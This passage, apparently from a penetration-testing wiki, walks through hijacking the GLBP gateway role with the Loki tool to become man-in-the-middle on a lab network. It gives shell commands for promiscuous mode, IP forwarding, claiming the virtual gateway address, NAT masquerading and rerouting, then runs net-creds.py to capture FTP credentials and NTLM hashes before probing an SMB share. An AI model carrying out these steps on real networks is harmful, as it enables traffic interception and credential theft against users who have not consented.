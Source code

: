 With this information, **we can easily attack GLBP.**

<figure><img src="../../.gitbook/assets/image (174).png" alt=""><figcaption><p>Loki found GLBP ads from two routers</p></figcaption></figure>

Before the attack, **switch to promiscious mode and allow traffic routing:**

```
~$ sudo ip link set eth0 promisc on
~$ sudo sysctl -w net.ipv4.ip_forward=1
```

Select the router at IP address **10.10.100.100** and activate the **Get IP** option. You also need to generate a **Gratuitous ARP.**

<figure><img src="../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (161) (2).png" alt=""><figcaption><p>The structure of a malicious GLBP injection</p></figcaption></figure>

As you can see, the AVG router is now pretending to be an attacking system. **The priority value is 255, the weight value is 255, i.e. the maximum.**

**After performing the injection we need to create a secondary IP address on our network interface with the value of the virtual IP address in the GLBP domain. You also need to set a 24-bit mask.**

**This way legitimate traffic will be looped back to us, because the virtual IP address used in the GLBP domain is the default gateway address for hosts:**

```
~$ sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
```

To see not only incoming traffic but also outgoing traffic, we need a small rule for **SNAT (masquerading):**

```
~$ sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**We also need to remove the default route on our machine and write a new one which will go through the former AVG router** **(address is 10.10.100.100).** Even though we have hijacked the AVG role from the router, it will still be able to route traffic.

```
~$ sudo route del default
~$ sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

That’s it, **we are now the “man in the middle”!** I will run the tool [**net-creds.py**](https://github.com/DanMcInerney/net-creds) to analyze the traffic to look for important data. **For example, unencrypted FTP traffic or NTLM hashes.**

```
~$ sudo python2 net-creds.py -i eth0
```

After running the utility, I will try to read the SMB share with the IP address **172.16.100.70**, which is behind the GLBP routers.

```
user@Boundless:~$ smbclient -L \\172.16.100.70 --user mercy
```
